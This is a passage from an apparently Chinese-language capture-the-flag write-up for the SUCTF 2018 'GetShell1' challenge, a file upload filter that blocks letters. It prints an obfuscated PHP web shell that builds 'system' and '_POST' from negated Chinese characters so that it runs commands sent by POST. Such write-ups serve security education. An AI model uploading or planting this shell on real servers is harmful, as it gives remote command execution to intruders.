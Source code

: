 ![upload successful](./images/pasted-504.png)
拿到flag

# [SUCTF 2018]GetShell1

![upload successful](./images/pasted-505.png)
发现文件上传，发现甚至连字母和换行都过滤了

`
<?=
$_=[];
$_=($_===$_);
$___=~区[$_].~册[$_].~区[$_].~勿[$_].~皮[$_].~针[$_];//system
$____=~研[$_].~寻[$_].~尽[$_].~欢[$_].~立[$_];//_POST
$___($$____[_]);
`
